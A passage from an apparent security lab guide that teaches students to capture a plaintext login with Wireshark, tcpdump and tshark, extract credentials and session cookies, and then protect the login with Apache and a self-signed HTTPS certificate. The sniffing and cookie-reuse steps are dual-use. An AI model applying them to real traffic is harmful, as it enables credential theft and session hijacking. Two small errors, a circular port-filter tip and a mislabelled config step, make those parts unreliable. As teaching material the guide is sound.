http.request.method == "POST" && ip.src == 10.0.0.15 && ip.dst == 10.0.0.20
```

- If you have username:hash or other markers in the request body, search for them
```bash
http.request.method == "POST" && frame contains "username="
```

- Show any HTTP traffic for a given IP (useful to discover relevant POSTs)
```bash
http && ip.addr == 10.0.0.20
```


**Tips:**

* Use parentheses to group conditions when combining multiple filters.
* ip.addr matches either source or destination; use ip.src / ip.dst for specificity.
* tcp.srcport and tcp.dstport are synonyms of tcp.srcport / tcp.dstport (use the one that reads best for you).
* If the login form is submitted via AJAX, inspect http.request.uri and http.content_type to identify the AJAX endpoint.
* After you identify the right packet, right-click → Follow → TCP Stream (or HTTP Stream) to view the full request body (credentials).
* If POST body is not visible, check the packet details pane under **Hypertext Transfer Protocol** → look for fields `Line-based text data` or `Form item`. Ensure **Allow subdissector to reassemble TCP streams** is enabled in Wireshark preferences (it usually is).


#### E — CLI alternative (tshark/tcpdump) on Kali Linux
If you prefer CLI:

**Capture traffic with tcpdump (while performing login):**
```bash
sudo tcpdump -i eth0 -s 0 -w lab_login.pcap host <app-host-ip>
# stop after login (Ctrl+C)
```

**Extract HTTP POST bodies with tshark:**

```bash
# list HTTP POST requests
tshark -r lab_login.pcap -Y 'http.request.method == "POST"' -T fields -e frame.number -e ip.src -e ip.dst -e http.host -e http.request.uri

# extract form data (http.file_data or http.request.line / http.request.method may help)
tshark -r lab_login.pcap -Y 'http.request.method == "POST"' -T fields -e http.file_data -e http.content_type
```

**Follow a TCP stream (CLI)**

```bash
# find frame number of POST packet from previous command, then:
tshark -r lab_login.pcap -qz follow,tcp,raw,\<tcp-stream-index\>
```
> (Exact flags vary by tshark version; the GUI method is simpler for visual inspection.)


### What to look for

* Basic auth header: Authorization: Basic \<base64\> — decode base64 to get user:password.
* Form POST body: username=...&password=... (URL-encoded).
* Session cookies set in Set-Cookie response headers (can be reused to impersonate session).
* Source/Destination: verify IPs (attacker, victim, server) and timestamps.


### Securing the Application with SSL/TLS

#### Introduction

Now that we’ve strengthened our password storage, it’s time to protect **how** credentials travel over the network.  
Even the strongest hashing algorithm can’t help if attackers can **capture passwords in transit**.

That’s where **SSL/TLS (Secure Sockets Layer / Transport Layer Security)** comes in.  
It establishes an **encrypted channel** between the client (browser) and the server, preventing anyone in the middle from reading or altering data — even if they intercept it.

#### How SSL/TLS Works
1. **Handshake phase** — The client and server agree on encryption methods and exchange public keys.
2. **Certificate verification** — The browser verifies the server’s identity using a digital certificate.
3. **Session key generation** — Both sides derive a temporary session key used for symmetric encryption.
4. **Encrypted communication** — All HTTP data (credentials, cookies, session IDs) are encrypted and integrity-protected.

**What Happens During a TLS Handshake?**



**TLS Versions: Difference between TLS 1.2 and 1.3**



This ensures:
- **Confidentiality:** No one can read intercepted traffic.
- **Integrity:** Messages cannot be altered undetected.
- **Authentication:** The client can verify the server’s identity.

---

### Setting Up SSL/TLS (Self-Signed Certificate)

We’ll now secure our lab application with HTTPS using **Apache** and a **self-signed certificate**.

> This certificate is for **local testing only** — browsers will show a warning since it’s not signed by a trusted authority.

---

#### 0. Create Your Lab Environment

Before setting up SSL/TLS, create a **new virtual machine** dedicated to this lab to ensure a clean and isolated environment.

- Use **VirtualBox** or **VMware** to create a VM running **Ubuntu Server 24.04 LTS (64-bit)**.
- Assign at least **2 GB RAM**, **1 CPU**, and **10 GB of disk space**.
- Use a **NAT** or **Bridged** network adapter so the VM can access the internet.
- After installation, start the VM and note its **IP address** (you can check it with `ip a`).
- Connect to the VM from your host system using SSH:

```bash
ssh yourusername@your-vm-ip
```
Once connected, you’re ready to proceed with the SSL setup.

> **Note — Phase 3 (HTTPS demo)**  
> For this phase **we will NOT use the full Hospital EMR application**. Instead you will run a **small demo PHP login script** (a fake login form) solely to demonstrate HTTP vs HTTPS behavior.
>
> As a result, you **do not need to install MySQL, MariaDB, or phpMyAdmin** on the VM for this exercise — the demo login is file-based and does not require a database.
>
> Recommended: install and run only a minimal web stack (Apache + PHP) on the VM, host the demo `index.php`/`login.php`, and use the VM’s IP to test HTTP/HTTPS behavior in the lab.


#### 1. Update your system
```bash
sudo apt update && sudo apt upgrade -y
```

#### 2. Install Apache and PHP

```bash
sudo apt install -y apache2 libapache2-mod-php php php-cli php-mbstring php-xml php-curl
```
Apache should start automatically after installation.
- Check its status:

```bash
sudo systemctl status apache2
```



#### 3. Enable necessary Apache modules

```bash
sudo a2enmod ssl
sudo a2enmod rewrite
sudo systemctl restart apache2
```

#### 4. Create your index.php

We’ll use the default Apache web root: /var/www/html

```bash
sudo rm /var/www/html/index.html
sudo tee /var/www/html/index.php > /dev/null <<'EOF'
<?php
echo "<h1>Hello World from PHP!</h1>";
echo "<p>This page is served by Apache with HTTPS support.</p>";
?>
EOF
```
**Now test it in your browser:**
👉 http://your-server-ip/

You should see your “Hello World” message.


#### 5. Enable SSL (HTTPS) with a self-signed certificate
Create certificate and key
```bash
sudo mkdir -p /etc/ssl/private
sudo mkdir -p /etc/ssl/certs

sudo openssl req -x509 -nodes -days 365 -newkey rsa:4096 \
  -keyout /etc/ssl/private/apache-selfsigned.key \
  -out /etc/ssl/certs/apache-selfsigned.crt \
  -subj "/C=MA/ST=Morocco/L=Casablanca/O=MyOrg/OU=IT/CN=localhost"
```

#### 6. Enable the default SSL site

Apache comes with a preconfigured SSL site (default-ssl.conf).

- Enable it:
```bash
sudo a2ensite default-ssl.conf
```

- Then edit the config to use your new certificate:
```bash
sudo nano /etc/apache2/sites-available/default-ssl.conf
```

- Find these lines (around halfway down):
```bash
SSLCertificateFile    /etc/ssl/certs/ssl-cert-snakeoil.pem
SSLCertificateKeyFile /etc/ssl/private/ssl-cert-snakeoil.key
```

- Find these lines (around halfway down):

```bash
SSLCertificateFile    /etc/ssl/certs/apache-selfsigned.crt
SSLCertificateKeyFile /etc/ssl/private/apache-selfsigned.key
```

Save and exit (CTRL + X, then Y or O).

#### 7. Restart Apache

```bash
sudo systemctl restart apache2
```


#### 8. Open ports in the firewall (if using UFW)
```bash
   sudo ufw allow 'Apache Full'
   sudo ufw enable
   sudo ufw status
```

#### 9. Test your setup

Now open these URLs in your browser:

* HTTP: http://your-server-ip/

* HTTPS: https://your-server-ip/

🟡 You’ll get a browser warning for the self-signed certificate — click
“Advanced → Proceed anyway” to continue (safe for local testing).

You should see your “Hello World from PHP!” message over HTTPS 



>**Note:**
> 
> When your browser shows the HTTPS padlock in red or marks the site as "Not Secure," it is usually because the SSL/TLS certificate is **self-signed** or not issued by a trusted Certificate Authority (CA). Browsers cannot automatically verify the identity of the server, so they warn users even though the connection is encrypted.
> 
>  In this lab, this is expected and safe because we are using a **self-signed certificate** on a local VM for testing purposes. The encryption still works, and submitted credentials are protected from eavesdropping.


### Verify HTTPS protects the login

**Objective:** show that when `login.php` is served over **HTTPS**, submitted credentials are **not** visible in plain text on the network capture.

**Steps (very short)**
1. Put the PHP file below at `/var/www/html/login.php` on your lab VM and serve it over **HTTPS** (e.g. `https://\<vm-ip\>/login.php`).
2. From a workstation on the same isolated lab network, start a packet capture using **Wireshark**, submit the form in the browser, then stop the capture.
3. Confirm the capture shows TLS-encrypted traffic and does **not** contain the plaintext `email` or `password`.

---

#### `login.php` (save to `/var/www/html/login.php`)
```php
<?php
// Simple demo login page for HTTPS verification (lab use only)
$submitted = false;
$email = '';
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $email = $_POST['email'] ?? '';
    $submitted = true;
}
?>
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Demo Login (HTTPS)</title>
  <meta name="viewport" content="width=device-width,initial-scale=1">
  <style>
    body { font-family: Arial, Helvetica, sans-serif; background:#f7f9fb; padding:40px; }
    .box { max-width:420px; margin:0 auto; background:#fff; padding:20px; border-radius:8px; box-shadow:0 2px 8px rgba(0,0,0,0.06); }
    label { display:block; margin-top:8px; font-weight:600; }
    input { width:100%; padding:8px; margin-top:6px; }
    button { margin-top:12px; padding:10px 14px; }
    .ok { margin-top:14px; color:#065f46; background:#ecfdf5; padding:10px; border-radius:6px; }
  </style>
</head>
<body>
  <div class="box">
    <h2>Demo Login (HTTPS)</h2>

    <?php if ($submitted): ?>
      <div class="ok">
        Login submitted for: <strong><?php echo htmlspecialchars($email, ENT_QUOTES | ENT_SUBSTITUTE); ?></strong><br>
        (This demo does not authenticate — it only posts the form so you can verify transport-level encryption.)
      </div>
      <p style="margin-top:10px;color:#666">You may now inspect your network capture to confirm the form data is encrypted.</p>
      <p><a href="login.php">Submit another</a></p>
    <?php else: ?>
      <form method="post" action="login.php" autocomplete="off">
        <label for="email">Email</label>
        <input id="email" name="email" type="email" placeholder="user@example.local" required>

        <label for="password">Password</label>
        <input id="password" name="password" type="password" placeholder="password" required>

        <button type="submit">Log in</button>
      </form>
    <?php endif; ?>
  </div>
</body>
</html>
```


## Homework — Lab Report

**Task:** Prepare a short report summarizing the lab exercises.

**Requirements:**
- Include screenshots and packet captures demonstrating each phase and all steps (plaintext login, MD5 hashing, HTTPS protection).
- Add brief comments explaining your observations for each step.
- Compile everything into a **single PDF** file for submission.

### Submission (single PDF only)

Create **one** PDF file and submit it via the Google Form link below (demo — replace later):  
**https://docs.google.com/forms/d/e/1FAIpQLSfy5WQdFYPU28b84C4wR7wW4SyCi_1S6q9KRgrHi1Sj3vLQwA/viewform?usp=header**


